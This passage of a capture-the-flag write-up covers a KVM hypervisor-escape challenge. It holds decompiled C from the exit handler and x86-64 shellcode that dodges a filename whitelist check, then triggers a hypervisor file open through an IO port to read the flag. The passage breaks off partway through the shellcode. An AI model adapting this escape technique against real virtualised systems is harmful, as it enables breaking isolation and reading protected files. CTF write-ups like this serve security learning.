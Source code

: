 ```c
        return;
      case 8u:
        fwrite("KVM_EXIT_SHUTDOWN\n", 1uLL, 0x12uLL, stderr);
        exit(1);
        return;
      case 9u:
        fprintf(
          stderr,
          "KVM_EXIT_FAIL_ENTRY: hardware_entry_failure_reason = 0x%llx\n",
          *(_QWORD *)(*(_QWORD *)(a1 + 24) + 32LL));
        exit(1);
        return;
      case 0x11u:
        fprintf(stderr, "KVM_EXIT_INTERNAL_ERROR: suberror = 0x%x\n", *(unsigned int *)(*(_QWORD *)(a1 + 24) + 32LL));
        exit(1);
        return;
      default:
        fprintf(stderr, "Unhandled reason: %d\n", *(unsigned int *)(*(_QWORD *)(a1 + 24) + 8LL));
        exit(1);
        return;
    }
  }
```

The code is raw decompile code. Its main purpose is handling the `syscall` in kernel by communicating via IO ports. The port is `0x8000 + syscall number`. If we write to those ports, we can use hypervisor to directly access flag file.

When the kernel checks the whitelist, it will prevent our `flag2` string. However, the string will not be erased and stay in a stable location. Thus, we can pass that address to hypervisor and open file:
```assembly
BITS 64

db '4294967268\2107670+a\31337\31337\31337\.'
times 20 nop

;try open the flag, it will leak "flag2" in memory
mov rax, 0x101010101010101
push rax
mov rax, 0x101013366606d67
xor [rsp], rax
xor rax, rax
mov al, 2
mov rdi, rsp
xor rsi, rsi
xor rdx, rdx
syscall

;use IO port to connect hypervisor
xor rdx, rdx
xor rcx, rcx
mov dx, 0x4444
mov cx, 0xc444
xor rdx, rcx
mov rax, 0x101010101010101
push rax
mov rax, 0x101010101214281
xor [rsp], rax
pop rax
out dx, eax

;read flag to buf
```